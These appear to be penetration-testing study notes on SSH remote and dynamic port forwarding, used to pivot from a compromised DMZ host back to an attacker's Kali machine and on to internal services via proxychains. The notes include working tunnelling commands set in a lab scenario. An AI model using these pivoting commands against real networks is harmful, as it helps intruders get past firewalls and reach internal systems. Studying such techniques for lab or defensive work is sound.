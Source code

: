 ## SSH Remote Port Forwarding
> SSH remote port forwarding can be used to connect back to an attacker-controlled SSH server, and bind the listening port there. 
> Think of it like a reverse shell, but for port forwarding.

Using SSH remote port forwarding to access a specified remote service
```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
- `-R`
	- remote port forward option
- `127.0.0.1:2345`
	- listen on port 2345 on our Kali machine
- `10.4.50.215:5432`
	- forward all traffic to port 5432 on 10.4.50.215
- `kali@192.168.118.4`
	- Use local Kali SSH credentials to establish SSH connection
- Now connecting to port 2345 on localhost will now be just like connecting directly to port 5432 on 10.4.50.215

- Scenario explained:
	- Network Setup:
		- WAN -> Firewall -> DMZ        -> INTERNAL
		- Kali                     -> machine1 -> machine2 -> machine3
	- Got a reverse shell on machine1
		- machine1 can SSH to admin@machine2
	- Our Kali cannot SSH to admin@machine2 as it is internal
	- Firewall blocks us from connecting to any port other than HTTP on machine1
- Solution:
	- Set up an SSH server on our Kali machine
	- Connect from machine1 to our Kali machine over SSH. 
		- `ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4`
			- Listen on port 2345 on our Kali machine (`127.0.0.1:2345`)
			- Forward all traffic to machine2 port 5432

## SSH Remote Dynamic Port Forwarding

Using SSH remote dynamic port forwarding to access any other port on any other host that jump host has access to, through this single port. Use Proxychains after.
```bash
ssh -N -R 9998 kali@192.168.118.4
```
- `-R 9998`
	- Bind the SOCKS proxy to port 9998 on the loopback interface of our Kali machine
- `-N` 
	- Prevent a shell from being opened
- `kali@192.168.118.4`
	- Use local Kali SSH credentials to establish SSH connection
- Edit proxychains configuration file with the dynamic port forward information
	- `socks5  127.0.0.1 9998`
- Using tools with proxychains will be forwarded out of the jumphost
